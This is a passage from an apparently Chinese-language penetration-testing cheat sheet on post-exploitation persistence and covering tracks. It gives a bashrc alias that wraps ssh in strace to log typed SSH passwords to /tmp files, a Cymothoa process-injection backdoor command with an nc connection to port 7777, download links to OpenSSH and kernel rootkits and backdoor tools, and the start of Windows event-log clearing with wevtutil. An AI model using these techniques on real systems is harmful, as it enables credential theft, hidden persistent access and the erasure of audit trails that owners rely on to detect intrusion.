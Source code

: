 ##### SSH keylogger

vim当前用户下的.bashrc文件,末尾添加

```
#!bash
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'
```

source .bashrc

##### Cymothoa_进程注入backdoor

```
./cymothoa -p 2270 -s 1 -y 7777
nc -vv ip 7777
```

##### rootkit

- [openssh_rootkit](http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz)
- [Kbeast_rootkit](http://core.ipsecs.com/rootkit/kernel-rootkit/ipsecs-kbeast-v1.tar.gz)
- Mafix + Suterusu rootkit

##### Tools

- [Vegile](https://github.com/Screetsec/Vegile)
- [backdoor](https://github.com/icco/backdoor)

# 14.痕迹清理

### [Windows日志清除](https://3gstudent.github.io/渗透技巧-Windows日志的删除与绕过)

获取日志分类列表：

```
wevtutil el >1.txt
```

获取单个日志类别的统计信息： eg.

```
wevtutil gli "windows powershell"
```

回显：

```
creationTime: 2016-11-28T06:01:37.986Z
lastAccessTime: 2016-11-28T06:01:37.986Z
lastWriteTime: 2017-08-08T08:01:20.979Z
fileSize: 1118208
attributes: 32
numberOfLogRecords: 1228
oldestRecordNumber: 1
```
